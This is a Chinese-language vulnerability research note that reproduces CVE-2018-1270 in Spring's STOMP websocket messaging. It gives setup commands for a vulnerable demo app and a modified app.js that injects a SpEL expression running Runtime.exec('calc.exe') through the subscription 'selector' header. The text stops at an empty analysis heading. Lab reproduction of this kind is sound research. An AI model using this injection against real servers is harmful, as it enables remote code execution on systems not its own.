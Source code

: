 

### CVE-2018-1270 RCE

#### 环境搭建

```
git clone git@github.com:spring-guides/gs-messaging-stomp-websocket.git
cd gs-messaging-stomp-websocket
git checkout 6958af0b02bf05282673826b73cd7a85e84c12d3
cd complete
mvn spring-boot:run
```

![image-20211116215130852](vulnerability-research.assets/image-20211116215130852.png)

#### 漏洞复现

篡改app.js的内容，插入恶意selector代码：

```js
function connect() {
    var header  = {"selector":"T(java.lang.Runtime).getRuntime().exec('calc.exe')"};
    var socket = new SockJS('/gs-guide-websocket');
    stompClient = Stomp.over(socket);
    stompClient.connect({}, function (frame) {
        setConnected(true);
        console.log('Connected: ' + frame);
        stompClient.subscribe('/topic/greetings', function (greeting) {
            showGreeting(JSON.parse(greeting.body).content);
        },header);
    });
}
```

![image-20211116215228659](vulnerability-research.assets/image-20211116215228659.png)

然后保存 Ctrl + S，然后点击Connect再随便Send一些字符，成功触发漏洞

![image-20211116215431393](vulnerability-research.assets/image-20211116215431393.png)

#### 漏洞分析

